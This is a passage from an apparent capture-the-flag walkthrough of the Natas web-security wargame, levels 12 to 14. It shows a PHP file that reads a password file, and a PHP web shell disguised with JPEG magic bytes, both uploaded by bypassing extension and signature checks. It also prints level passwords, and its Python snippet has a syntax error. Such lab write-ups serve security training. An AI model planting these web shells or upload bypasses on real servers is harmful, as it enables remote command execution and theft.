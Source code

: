 Now put it in the cookie and you'll get the password

> The password for natas12 is EDXp0pS26wLKHZy1rDBPUZk0RKfLGIR3

## Level 12

This level is pretty interesting, and a bit tricky because we need to use
BurpSuite to intercept our request, but we'll talk about that later.

As we first open the page we see that we can upload a file, and when we see the
source code we also see that our uploaded file will have a random string as name
with the .jpg format.

So we first have to craft out file, like this:

```PHP
<?php readfile('/etc/natas_webpass/natas13'); ?>
```
Here is where BurpSuite come in our help (I won't explain how to use it, but is
preatty simple and you can learn this thing with a 10 minutes on google)

What we have to do with BurpSuite is change the extension of our uploaded file
so we can run it.
```
The file upload/lrn0t7ehgm.php has been uploaded
```

Now we just have to open the file and we'll se the password:

> Here's your password for the next level: jmLTY0qiPZBbaKc9341cqPQZBJv7MQbY

## Level 13

This level is like the previous one, but this time they check the signature byte
of the file.

We'll use this python line of code to add what we need:
```python
#!/usr/bin/env python

with open('natas12.php', 'wb') as fh
    fh.write('\xFF\xD8\xFF\xE0' + '<?php passthru($_GET["cmd"]); ?>')
```
Now we upload the file and intercept the request with BurpSuite like the
previous level, and remove the strange character at the beginning of the file
```
The file upload/<name>.php has been uploaded
```
Now we open the file and we'll get the password:

> Here's your password for the next level: Lg96M10TdfaPyVBkJdjymbllQ5L6qdl1

## Level 14

As we open the level we see a login form. We'll take a look at the source code
as always and we will notice that they do some query to a SQL database.


[^1]: XX is the current level.
[^2]: I suggest to open tamper data with only the natas page open, otherwise he